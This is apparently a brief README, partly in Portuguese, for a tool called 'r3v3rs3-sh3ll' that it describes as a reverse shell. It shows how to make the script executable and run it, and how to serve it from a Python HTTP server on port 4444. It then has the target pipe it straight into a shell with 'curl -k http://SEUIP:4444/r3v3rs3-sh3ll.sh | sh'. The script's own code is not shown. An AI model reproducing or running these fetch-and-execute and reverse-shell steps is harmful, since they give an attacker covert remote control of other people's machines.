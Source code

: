 # r3v3rs3-sh3ll

Reverse shell.



- chmod +x r3v3rs3-sh3ll.sh
- ./r3v3rs3-sh3ll.sh

pode ser utilizo levantando um servidor python e chamando com curl

- python3 -m http.server 4444

- curl -k http://SEUIP:4444/r3v3rs3-sh3ll.sh | sh

![image](https://github.com/carlosalbertotuma/r3v3rs3-sh3ll/assets/13341724/f3c14b08-f455-4b99-ade3-c73364fbbea1)
